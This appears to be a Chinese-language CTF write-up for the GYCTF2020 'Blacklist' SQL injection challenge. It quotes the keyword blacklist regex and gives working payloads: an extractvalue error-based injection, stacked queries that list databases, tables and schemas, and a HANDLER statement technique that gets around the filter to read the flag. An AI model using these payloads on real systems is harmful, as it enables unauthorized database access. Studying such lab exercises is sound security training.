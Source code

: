 # [GYCTF2020]Blacklist

## 一、题目信息

1. 经测试发现可能是SQL注入

![image-20211020183238631](https://i.loli.net/2021/10/20/K94NMPkOI81nx2D.png)



## 二、注入测试

1. 构造闭合

![image-20211020183553929](https://i.loli.net/2021/10/20/AMFlvfEmJkwWz1s.png)



2. 得到三条数据

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}
array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```



3. 测试返回黑名单列表

```php
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```



4. 使用**xpath 报错注入**获取数据

```
/
?inject=1' and extractvalue(0x0a,concat(0x7e,(database()),0x7e)) and '1

user: root@localhost
version: 10.3.18-MariaDB
database: supersqli
```

![image-20211020185015766](https://i.loli.net/2021/10/20/BLm1hts53PWZNal.png)



5. 测试发现可以进行堆叠注入



6. 获取所有数据库名

```sql
/?inject=-1';show databases;
```

![image-20211020191502448](https://i.loli.net/2021/10/20/Z9jMmV76bIncu4W.png)

```
ctftraining
information_schema
mysql
performance_schema
test
supersqli
```





7. 获取所有表名

```SQL
/?inject=1';show+tables;
```

![image-20211020185706882](https://i.loli.net/2021/10/20/umZzrlXNBPDLhaH.png)

得到：

```
FlagHere
words
```



9. 查询表结构

```sql
/?inject=-1';show create table FlagHere;
/?inject=-1';show create table words;
```

![image-20211020194001518](https://i.loli.net/2021/10/20/r1EluZo2VTnfCp9.png)

![image-20211020194345422](https://i.loli.net/2021/10/20/SC1ORcLdGv5BsZE.png)



## 三、解题思路

使用HANDLER语句读取数据

![image-20211020194857417](https://i.loli.net/2021/10/20/wHmJBifIL31hOFg.png)

Get Flag！



### HANDLER语句解释

```html
handler ... open      #打开一个表
handler ... read      #访问表内容，在调用close前是不会关闭的
handler ... close     #关闭会话
```



